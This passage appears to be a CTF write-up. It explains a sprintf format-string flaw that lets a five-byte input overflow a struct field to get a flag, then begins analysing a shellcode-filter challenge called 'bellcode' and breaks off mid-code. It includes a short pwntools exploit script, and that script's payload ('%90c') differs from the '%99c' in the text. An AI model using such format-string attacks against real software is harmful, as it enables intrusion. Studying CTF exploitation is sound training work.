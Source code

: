 The program takes in **5** bytes of input from the user into a variable `temp`.

The contents of `temp` are then read into `str.buf` through **sprintf**.

Finally, the program gives a flag if the value of `str.check` was modified.

Technically, if we can only input **5** bytes into buf, we will not be able to overflow check.

However, you may have noticed but **sprintf** is vulnerable to a format string attack.

Here's the secure way to have used **sprintf**:

```c
sprintf(str.buf, "%s", temp);
```

However, due to the **lack of a format string** in the code, we can maliciously input format strings of our own which would be interpreted in the same way by the computer.

Hence, if we input **%99c** into the program, the program would copy **99** one byte characters from `temp` to `str.buf`, and hence overflowing `str.check` and giving us the flag.

### Exploit Script

```python
from pwn import * # import pwntools

p = process('./bof') # run the program

p.sendline("%90c") # overflow str.check

p.interactive() # get flag!
```

## bellcode (390 pts) - 37 solves
---

>
> Do you like Taco Bell?
> Author: Eth007
> 
> [bellcode](attachments/belcode/bellcode)
>

### Analysis
```c
int main()
{

  // init functions -- can ignore
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);

  // map 0x2000 sized memory at 0xFAC300 with rwx permissions
  mmap((void *)0xFAC300, 0x2000uLL, 7, 33, -1, 0LL);
  
  puts("What's your shellcode?");

  // get user input into mapped memory
  fgets((char *)0xFAC300, 4096, stdin);
  
  // for each character in user input, ensure that it is divisible by 5
  for ( int i = 0xFAC300; i <= 0xFAD2FF; ++i )
  {
    if ( *(_BYTE *)i % 5u )
    {
      puts("Seems that you tried to escape. Try harder™.");
      exit(-1);
```